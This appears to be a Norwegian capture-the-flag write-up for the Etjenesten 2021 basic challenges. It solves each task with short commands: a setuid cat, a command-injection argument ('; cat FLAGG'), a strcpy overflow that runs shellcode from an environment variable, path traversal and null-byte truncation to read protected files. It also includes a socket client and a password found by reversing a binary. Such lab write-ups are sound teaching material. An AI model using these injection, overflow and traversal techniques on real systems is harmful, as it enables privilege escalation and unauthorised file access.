 ```yaml
---
title: Etjenesten21 - Grunnleggende
date: 2022-01-17 12:00:00 +0100
categories: [Etjenesten, Etjenesten Jul 21]
tags: [ctf, etjenesten, suid, rev, pwn, python, "2021", norwegian]
img_path: /assets/img/etjenesten21/
---
```

## 1.1_scoreboard
Flagget nås ved `cat FLAGG`.

## 1.2_setuid
Flaggfilen eier vi ikke, men vi har en cat-kommando med setuid bit til den brukeren som eier filen. `./cat FLAGG`

## 1.3_injection
Binaryen *md5sum* har et setuid-bit satt for eieren av FLAGG. Vi kan kjøre `./md5sum FLAGG; cat FLAGG` for å få programmet til å printe flagget.

## 1.4_overflow
Vi finner ut ved å se på kildekoden at binaryen bruker *strcpy()*, som lar oss overflowe bufferet som lagrer inputen vår. Vi kan også se at variabelen *above* må ha verdien "ABCDEFGH". Hvis *above* er satt korrekt til koden hoppe til `prep_shellcode` siden det er dit `shellcode_ptr` peker. Koden i SHC-enviroment variabelen blir tilslutt i denne funksjonen returnert til, osm gir oss shell som `basic4` brukeren.
```shell
$ export SHC=$(cat sample_shellcode)
$ ./overflow "AA$(echo $SHC)ABCDEFGHaaaaaaaaaaaaaaaaaaaaaaaa000000"
```
{: .nolineno }

## 1.5_nettverk
Flagget kommer etter man har kommunisert med en server.
```python
import socket
import struct
import select

TCP_IP = "127.0.0.1"
TCP_PORT = 10015

def main():
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn.connect((TCP_IP, TCP_PORT))
    print(conn.recv(4096).decode("utf-8"))

    a = []
    for i in range(10):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((TCP_IP, TCP_PORT))
        a.append(s)
    print(conn.recv(4096).decode("utf-8"))

    sum = 0
    for b in range(len(a)):
        data = a[b].recv(4096)
        value = struct.unpack('>I',data)
        sum += value[0]

    conn.send(bytearray(struct.pack('>I', sum)))
    print(conn.recv(4096).decode("utf-8"))
    list = []
    while True:
        try:
            ready,_,_ = select.select(a, [], [], 10.0)
            for sock in ready:
                tpl = sock.recv(4096).decode("utf-8")
                list.append(tpl[0])
        except:
            break
    print("".join(list))

if __name__ == "__main__":
    main()
```

## 1.6_reversing
Ved å reversere filen *check_password* kan man se at:
- Passordet må være 32 bytes langt
- At de første 19 bokstavene er *Reverse_engineering*
- De neste bokstavene er *_er_* (hex tall gjort om til ascii)
- Slutter med bokstavene *morsomt__*
Strengen blir til slutt `Reverse_engineering_er_morsomt__`

Med Ghidra ser *check_password* slik ut:

![reversing](6_reversing.png)

## 1.7_path_traversal
Vi har et binary som leser filer i et directory som heter *bok*. Vi kan bruke path-traversal til å hoppe tilbake ett directory for å lese FLAGG-filen.
`./les_bok ../FLAGG`

## 1.8_bonusflagg
Det er et bonus flagg også. Vi kan se i c-koden til *les_bok* at det legges til en *.txt* på teksten vi sender som argument (fila vi vil lese). Vi kan terminere stringen før *.txt* blir lagt til med en url-enkodet null-byte, og lese flagget på samme måte som forrige.
`./les_bok ../BONUS_FLAGG%00`
